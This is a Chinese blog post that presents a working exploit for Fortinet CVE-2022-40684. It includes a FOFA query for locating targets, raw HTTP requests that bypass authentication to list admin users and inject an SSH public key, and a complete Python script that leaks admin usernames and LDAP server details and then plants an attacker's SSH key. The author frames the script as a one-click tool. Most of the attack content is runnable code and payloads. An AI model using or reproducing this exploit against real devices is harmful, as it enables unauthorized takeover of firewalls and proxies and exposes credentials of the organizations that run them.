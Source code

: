 #  (自用POC)Fortinet-CVE-2022-40684

原创 老呆 [ 阿呆攻防 ](javascript:void\(0\);)

**阿呆攻防** ![]()

微信号 dai_attack

功能介绍 这是一个个人技术分享号，本人从Java转岗安全，会从各方面进行一些安全推送，不多介绍，自己看即可

____

___发表于_

收录于合集 #安全 7个



  

今天闲着没事研究了一下这个洞，但是看到Github得整合起来使用，于是我这里就整合一个版本，也只是属于漏洞复现的整合，平时也不拿nday挖洞，但是也只是为了遇到的时候用一个脚本方便些。任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益
。



01

漏洞简介  

  

Fortinet（飞塔）是一家全球知名的网络安全产品和安全解决方案提供商，其产品包括防火墙、防病毒软件、入侵防御系统和终端安全组件等。在受影响的FortiOS、FortiProxy
和
FortiSwitchManager产品的管理界面中，可以通过使用备用路径或通道绕过身份验证，并在未经认证的情况下通过特制的HTTP或HTTPS请求对管理界面进行操作。



02

风险等级  

  

高危



03

影响版本  

  

  * FortiOS  7.2.0 - 7.2.1

  * FortiOS  7.0.0 - 7.0.6

  * FortiProxy  7.2.0

  * FortiProxy  7.0.0 - 7.0.6

  * FortiSwitchManager  7.2.0

  * FortiSwitchManager  7.0.0



04

FOFA语法  

  

  *   * 

    
    
    title="FortiProxy“title="FortiGate"



05

POC  

  

  *   *   *   *   *   *   *   * 

    
    
    GET /api/v2/cmdb/system/admin HTTP/1.1Host: 目标User-Agent: Node.jsAccept-Encoding: gzip, deflateAccept: */*Hosts: 127.0.0.1:9980Forwarded: by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=X-Forwarded-Vdom: root

![](https://gitee.com/fuli009/images/raw/master/public/20230309224536.png)

说明漏洞存在，获取用户名这个可以直接用现成脚本获取，然后生成自己的SSH公钥写入：  

  * 

    
    
    ssh-keygen -t rsa

![](https://gitee.com/fuli009/images/raw/master/public/20230309224538.png)

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    PUT /api/v2/cmdb/system/admin/用户名 HTTP/2Host: 目标User-Agent: Report RunnerAccept-Encoding: gzip, deflateAccept: */*Connection: closeForwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"Content-Length: 589Content-Type: application/json  
    {"ssh-public-key1": "\"公钥内容\""}

![](https://gitee.com/fuli009/images/raw/master/public/20230309224539.png)

这样可以算成功写入了。  



06

开源POC使用  

  

  *   * 

    
    
    https://github.com/carlosevieira/CVE-2022-40684/blob/main/exploit.pyhttps://github.com/horizon3ai/CVE-2022-40684/blob/master/CVE-2022-40684.py

在使用上先用carlosevieira师傅的获取用户名，然后将用户名作为参数给到horizon3ai师傅的脚本。

![](https://gitee.com/fuli009/images/raw/master/public/20230309224540.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230309224542.png)



07

整合现有的POC  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import argparseimport requestsimport urllib3import json requests.packages.urllib3.disable_warnings()urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
    def format_key(key_file):    with open(key_file) as f:        k = f.read().strip()  
        return(k)  
    def get_usernames(url):    headers = {        "user-agent": "Node.js",        "accept-encoding": "gzip, deflate",        "Host": "127.0.0.1:9980",        "forwarded": 'by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=',        "x-forwarded-vdom": "root",    }    try:        r = requests.get(url + "/api/v2/cmdb/system/admin", headers=headers, verify=False)        if(r.status_code == 200):                        print("\033[92m[+] The target {} is vulnerable\033[0m".format(url))            data = json.loads(r.text)            for user in data['results']:                print("\033[93m[+]\033[0m Admin username: {}".format(user['name']))                print("\033[93m[+]\033[0m Level access: {}".format(user['accprofile']))            print("[+] Serial: {}".format(data['serial']))            print("[+] Version: {}".format(data['version']))  
                r = requests.get(url + "/api/v2/cmdb/user/ldap", headers=headers, verify=False)            data = json.loads(r.text)            if(len(data['results']) > 0):                print("[+] Leaking ldap config")                print("\033[93m[+]\033[0m LDAP server: {}".format(data['results'][0]['name']))                print("\033[93m[+]\033[0m LDAP server: {}".format(data['results'][0]['server']))                print("\033[93m[+]\033[0m LDAP binddn: {}".format(data['results'][0]['dn']))                print("\033[93m[+]\033[0m LDAP username: {}".format(data['results'][0]['username']))            return True    except Exception as exception:        print(exception)    return False  
    def get_shell(url, username, key_file):    headers = {        'User-Agent': 'Report Runner',        'Forwarded': 'for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"'    }    key = format_key(key_file)    j = {        "ssh-public-key1": '\"' + key + '\"'    }    url = f'{url}/api/v2/cmdb/system/admin/{username}'    try:        r = requests.put(url, headers=headers, json=j, verify=False)        if 'SSH key is good' in r.text:            print(f'[+] SSH key for {username} added successfully!')    except Exception as exception:        print(exception)  
    if __name__ == "__main__":    parser = argparse.ArgumentParser()    parser.add_argument('-u', '--url', help='URL路径', required=True)    args = parser.parse_args()    if args.url != '' and args.url != None:        is_vul = get_usernames(args.url)        if is_vul:            username = input("\033[91m[*]请输入用户名\033[0m:")            key_file = input("\033[91m[*]请输入SSH公钥id_rsa.pub路径\033[0m:")            get_shell(args.url, username, key_file)

![](https://gitee.com/fuli009/images/raw/master/public/20230309224543.png)

搞定整合成一个了，这个洞就可以一键搜哈了。



  
  
  

喜欢就点个关注一起进步吧

  
  
  



  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


